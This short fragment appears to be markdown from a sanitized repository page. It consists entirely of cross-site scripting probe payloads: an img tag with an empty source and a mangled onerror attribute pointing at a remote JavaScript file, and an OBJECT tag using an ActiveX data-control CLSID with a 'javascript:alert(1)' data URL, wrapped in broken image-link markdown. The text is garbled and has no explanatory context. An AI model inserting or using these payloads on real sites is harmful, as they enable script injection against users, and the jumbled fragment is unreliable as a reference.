 ![

<img src="" OnErroR.="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>

](()
